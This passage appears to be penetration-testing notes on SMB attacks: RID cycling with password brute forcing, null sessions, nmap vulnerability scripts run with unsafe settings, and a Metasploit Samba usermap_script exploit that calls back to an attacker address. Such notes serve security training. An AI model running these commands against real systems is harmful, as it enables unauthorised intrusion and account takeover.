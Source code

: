 Rid Enum is a RID cycling attack that attempts to enumerate user accounts through null sessions and the SID to RID enum. If you specify a password file, it will automatically attempt to brute force the user accounts when its finished enumerating.

```
https://tools.kali.org/maintaining-access/ridenum
```

#### &#x20;<a href="#null-session" id="null-session"></a>

#### Null Session <a href="#null-session" id="null-session"></a>

A null SMB session can be used to gather passwords and useful information from SMB 1 by looking in shares that are not password protected for interesting files. Windows NT/2000 XP default settings allow this. Windows 2003/XP SP2 SMB this behaviour is disabled.



**Null session and extract information.**

```
nbtscan -r $ip
```



**Version**

```
msfconsole; use auxiliary/scanner/smb/smb_version; set RHOSTS $ip; run
```

MultiExploit

```
msfconsole; use exploit/multi/samba/usermap_script; set lhost 10.10.14.x; set rhost $ip; run
```



**Show all nmap SMB scripts**

```
ls -ls /usr/share/nmap/scripts/smb*
```

Quick enum:

```
nmap --script=smb-enum* --script-args=unsafe=1 -T5 $ip
```

Quick vuln scan:

```
nmap --script=smb-vuln* --script-args=unsafe=1 -T5 $ip
```

Full enum and vuln scanning:

```
nmap --script=smb2-capabilities,smb-print-text,smb2-security-mode.nse,smb-protocols,smb2-time.nse,smb-psexec,smb2-vuln-uptime,smb-security-mode,smb-server-stats,smb-double-pulsar-backdoor,smb-system-info,smb-vuln-conficker,smb-enum-groups,smb-vuln-cve2009-3103,smb-enum-processes,smb-vuln-cve-2017-7494,smb-vuln-ms06-025,smb-enum-shares,smb-vuln-ms07-029,smb-enum-users,smb-vuln-ms08-067,smb-vuln-ms10-054,smb-ls,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-os-discovery --script-args=unsafe=1 -T5 $ip
```
